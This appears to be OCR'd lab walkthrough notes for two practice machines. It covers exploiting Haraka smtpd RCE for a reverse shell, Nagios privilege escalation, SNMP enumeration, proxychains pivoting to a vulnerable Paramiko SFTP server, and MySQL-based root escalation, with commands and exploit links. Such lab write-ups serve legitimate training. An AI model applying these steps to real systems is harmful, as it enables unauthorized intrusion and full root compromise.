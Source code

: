 ```bash
Harakiri (.81)
```
Operating SystemWindows
Points25
Similar Machine (User)HackTheBox’s RedCross
Similar Machine (Root)
Exploit in Getting User
1. Target machine has a service called Haraka smtpd 2.8.8 which is vulnerable to RCE -
https://www.exploit-db.com/exploits/41162
1. Update the port in exploit to point it to target machine’s smtp port
2. Get Reverse Shell - python 41162.py -m TARGET_IP -t root@haraka.test -c "reverse shell
here"
1. User shell!
Privilege Escalation to Root
1. Run sudo -l
2. Check the version of nagios - /usr/local/nagios/bin/nagios --version
3. Nagios is vulnerable to Root Privilege Escalation -
https://gist.github.com/xl7dev/322b0f85dc9f6a06573302c7de4f4249
1. Run the exploit - bash nagios-root-privesc.sh /usr/local/nagios/var/nagios.log
2. Root shell!

```bash
Rocinante (.82)
```
Operating SystemLinux
Points25
Similar Machine (User)HackTheBox’s RedCross
Similar Machine (Root)
Exploit in Getting User
1. Run UDP Scan - sudo nmap -sU 192.168.XX.221
2. Download snmp-mibs-downloader - apt-get install snmp-mibs-downloader
3. SNMP is enabled so run this - snmpwalk -v 1 -c public 192.168.XX.221 > snmpwalk.out
4. vim /etc/snmp/snmp.conf and and comment out the only uncommented line to use the mibs
mibs +ALL
1. Run snmpwalk -v 1 -c public 192.168.XX.221 hrSWRunParameters and you will get
HOST-RESOURCES-MIB::hrSWRunParameters.704 = STRING:
"/usr/local/bin/paramiko_2.4.0_sftpserver.py 0.0.0.0 2222 /etc/ssl/roci_rsa.key"
1. Edit proxychain - vim /etc/proxychains.conf and put http 192.168.XX.221 3128
2. Then run - proxychains curl http://127.0.0.1:2222 and you will get connected
|S-chain|-<>-192.168.32.221:3128-<><>-127.0.0.1:2222-<><>-OK
SSH-2.0-paramiko_2.4.0
1. Use Paramiko 2.4.1 exploit - https://www.exploit-db.com/exploits/45712
2. Edit the exploit
Get local - print(sftp.get('/home/roci/local.txt','local.txt'))
List Dir - print(sftp.listdir('/'))
1.  Run proxychains python exploit.py
2.  Or if you don’t want to edit too much in Step 8 to 10. Use this to get reverse shell
https://github.com/jm33-m0/CVE-2018-7750/blob/master/rce.py
1.  User shell!
Privilege Escalation to Root
1. Follow https://www.exploit-db.com/exploits/1518
2. Check /etc/mysql/mariadb.conf.d/50-server.cnf and /etc/mysql/my.cnf
3. Change the line “user=mysql” to “user=root” in the file /etc/my.cnf.
4. mysql -u root -p
5. You may follow this
https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-fu
nctions-and-setuid-binaries/
1. Root shell!
